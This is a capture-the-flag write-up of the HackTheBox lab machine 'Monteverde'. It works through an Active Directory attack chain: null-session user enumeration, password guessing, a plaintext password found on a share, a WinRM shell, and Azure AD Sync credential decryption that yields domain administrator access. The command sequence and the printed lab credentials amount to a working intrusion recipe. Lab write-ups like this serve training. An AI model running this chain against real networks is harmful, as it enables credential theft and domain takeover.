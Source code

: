 ```yaml
---
title: "Monteverde"
date: 2025-05-09
categories:
  - HackTheBox
  - Active Directory
tags:
  - HackTheBox
  - Active Directory
---
```


# Monteverde

![](../assets/Pasted%20image%2020250508235926.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.172
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 00:19 CEST
Nmap scan report for 10.10.10.172
Host is up (0.042s latency).
Not shown: 65516 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-08 22:13:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49750/tcp open  msrpc         Microsoft Windows RPC
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -6m44s
| smb2-time: 
|   date: 2025-05-08T22:14:26
|_  start_date: N/A
```

Get users with a null session via `rpcclient` and make a list

```shell
$ rpcclient -U '' -N 10.10.10.172
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

```shell
$ cat users | awk -F[][] '{print $2}' | sponge users
```

A user has an important description

```shell
rpcclient $> querydispinfo
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
```

Using `nxc` we find that `SABatchJobs` uses the same password as the name.

![](../assets/Pasted%20image%2020250509004204.png)

Looking at the shares, the user can read some folders.

![](../assets/Pasted%20image%2020250509093833.png)

In the `users` folder, the user `mhope` has an `azure.xml` file

![](../assets/Pasted%20image%2020250509094041.png)

```shell
$ cat azure.xml                
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

So `mhope:4n0therD4y@n0th3r$`

```shell
$ nxc winrm 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$
WINRM       10.10.10.172    5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
```

## Initial Access

Using the found credentials, use `evil-winrm` to access the machine

```shell
$ evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami
megabank\mhope
```

Get the flag

```shell
*Evil-WinRM* PS C:\Users\mhope\desktop> type user.txt
faea87344cd9b77a1fddc48abc6a62da
```

## Privilege Escalation

`mhope` belongs to the Azure Admins group and the system has Azure AD Sync and a database installed, so:

```shell
*Evil-WinRM* PS C:\program files> ls
    Directory: C:\program files
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

Searching for an exploit, we find [https://github.com/VbScrub/AdSyncDecrypt](https://github.com/VbScrub/AdSyncDecrypt). Download the files and upload them to the machine, then, following the instructions, execute the exe.

```shell
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\users\mhope\addecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

`administrator:d0m@in4dminyeah!`

Re-enter as `administrator` via `evil-winrm`

```shell
$ evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megabank\administrator
```

## Post Exploitation

```shell
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
6fb5178cc58500def2e5ede28a86cc0d
```

